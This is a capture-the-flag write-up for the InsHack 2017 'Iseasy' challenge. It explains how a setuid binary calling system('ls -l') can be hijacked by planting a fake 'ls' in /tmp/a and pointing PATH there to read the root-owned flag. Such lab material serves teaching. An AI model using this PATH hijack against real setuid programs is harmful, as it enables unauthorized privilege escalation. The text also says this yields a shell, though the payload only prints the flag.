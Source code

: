 ```yaml
---
title: "Iseasy | InsHack 2017"
tags: ["pwn", "privilege_escalation"]
points: 75
solves: 127
---
```


A simple privilege escalation, taking advantage of the `PATH` environment variable.

## Overview
The challenge source code is just this little snippet:
```c
int main() {
    system("ls -l");
}
```

This simply lists the files in the current directory. Very importantly the program is running with **setuid**, meaning the executable **runs as root** even if a normal user runs it. But how can this harm anyone if it just lists a directory?


## Solution
Well, the program will run the executable `ls` but how does it find it? It uses the PATH environment variable. That means that if we are able to point it to our `ls` it would just run `our/ls` and not `/bin/ls`!

The solution is something like this:
 - Create a file named `ls` in the `/tmp/a` directory.
```bash
mkdir /tmp/a
touch /tmp/a/ls
```

 - Write in `/tmp/a/ls`:
```bash
/bin/cat $PWD/flag
```

 - And now if we just change the PATH environment variable to point to our `ls` we get a shell!
```bash
export PATH=/tmp/a
./vuln
```

